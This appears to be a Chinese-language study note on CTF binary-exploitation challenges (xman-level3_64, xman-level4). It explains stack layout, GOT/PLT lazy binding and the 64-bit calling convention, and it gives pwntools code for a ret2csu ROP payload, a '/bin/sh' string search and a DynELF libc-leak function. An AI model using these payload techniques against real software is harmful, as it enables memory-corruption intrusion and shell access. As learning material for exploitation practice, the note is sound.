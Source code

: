 几个细节需要记录一下以后注意：
1. 栈的布置（32位）：
```
[padding][返回地址][下一个返回地址][参数N][参数N-1]...[参数1]
```
2. got表的延迟绑定技术情况下，需要泄漏那些已经使用过的函数才行。
3. pwntools中的ELF模块直接可对elf程序的plt、got表和字符串进行搜索，其中可执行的程序的got和symbols是一致的，libc只有symbols。掉用一个程序，跳转到其plt表。
4. 搜索binsh字符串的方法
``` python
from pwn import *
libc = ELF('xxx')
libc.search('/bin/sh').next()
```

### xman-level3_64
在64位环境下，函数的调用所需要的参数是优先通过寄存器来进行的。寄存器的顺序如下：rdi,rsi,rdx,rcx,r8,r9。当一个函数有大于6个整形参数，则超出的部分会通过栈来传递，这个情况少见。

使用通用gadget控制write三个参数的值
``` python
def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)
```

问题：
plt 和 got表的关系到底是怎样的，ret指令为什么放plt就行，放got表就不行


### xman-level4 
> 此题没有提供libc， 考查泄漏libc的方式，网上的wp基本上都是利用pwntools的dynelf模块来泄漏，这里先使用这个方式进行泄漏，等到后边学会更多技巧之后再写其他方法。

使用`DynELF`需要需要满足目标漏洞可以反复触发，并且只能泄露出system的地址，原理我也不知道了，，写法如下：
``` python
from pwn import *

def leak(address):
    '''
    DynELF leak
    '''
    global io
    global elf

    plt_write = elf.plt['write']
    addr_vul_func = 0x0804844B

    payload  = 'A' * (0x88 + 0x4)
    payload += p32(plt_write)
    payload += p32(addr_vul_func)
    payload += p32(1)
    payload += p32(address)
    payload += p32(4)

```
